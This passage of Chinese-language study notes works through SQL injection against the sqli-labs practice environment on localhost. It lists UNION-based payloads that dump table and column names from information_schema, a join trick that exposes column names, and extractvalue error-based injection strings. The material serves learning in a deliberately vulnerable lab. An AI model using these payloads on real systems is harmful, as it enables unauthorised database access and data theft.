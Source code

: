 ​	- 爆表名

```mysql
http://localhost/sqli-labs-master/Less-1/?id='union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()%23
```

​	- 爆所有库列名

```mysql
http://localhost/sqli-labs-master/Less-1/?id='union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()%23
```

​	- 爆当前库下指定表列名

```mysql
http://localhost/sqli-labs-master/Less-1/?id='union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='users'%23
```



无列名报错注入join查列名【这时无需保证字段数为3，直接union select 即可】

```mysql
http://localhost/sqli-labs-master/Less-1/?id='union select * from (select * from users as a join users b using(id,username))c%23
//或者加上extractvalue，效果一样
http://localhost/sqli-labs-master/Less-1/?id='union select extractvalue(0x0a,concat(0x0a,(select * from (select * from users as a join users b using(id,username))c)))%23
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439865.png" alt="image-20210523113654148" style="zoom:67%;" />



### 报错注入

1. 发现是整数，2列

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439866.png" alt="image-20210719153315081" style="zoom:67%;" />

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439867.png" alt="image-20210719153236931" style="zoom:67%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439868.png" alt="image-20210719153122597" style="zoom:67%;" /><img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439869.png" alt="image-20210719153213247" style="zoom: 67%;" />



2. 利用**hackbar的快捷键**extractvalue报错注入

```
?id=extractvalue(0x0a,concat(0x0a,(select database())))
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439870.png" alt="image-20210719154014631" style="zoom:67%;" />

4. 查表名

```
?id=extractvalue(0x0a,concat(0x0a,(select group_concat(table_name) from information_schema.tables where table_schema=database())))
```
